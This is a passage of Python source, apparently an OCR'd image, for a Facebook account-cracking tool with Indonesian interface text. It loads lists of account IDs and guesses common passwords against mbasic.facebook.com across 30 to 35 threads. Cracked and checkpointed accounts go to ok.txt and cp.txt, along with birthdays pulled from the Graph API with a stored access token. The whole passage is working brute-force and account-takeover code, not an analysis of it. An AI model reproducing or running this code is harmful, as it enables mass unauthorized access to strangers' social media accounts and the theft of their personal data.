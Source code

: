 							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print(("   %s"%e))
					continue
				print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
				self.pwlist()
				break
			elif f=="d":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print(("   %s"%e))
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print(("   %s"%e))
				print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				exit()
				break
	def pwlist(self):
		self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
			print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			exit()
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=mbasic(fl.get("id"),
					i,"https://mbasic.facebook.com")
				if log.get("status")=="cp":
					try:
						ke=requests.get("https://graph.facebook.com/"+fl.get("id")+"?access_token="+open("login.txt","r").read())
						tt=json.loads(ke.text)
						ttl=tt["birthday"]
						print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s • %s          "%(fl.get("id"),i,ttl)))
						self.cp.append("%s • %s • %s"%(fl.get("id"),i,ttl))
						open("cp.txt","a+").write("%s • %s • %s\n"%(fl.get("id"),i,ttl))
						break
					except(KeyError, IOError):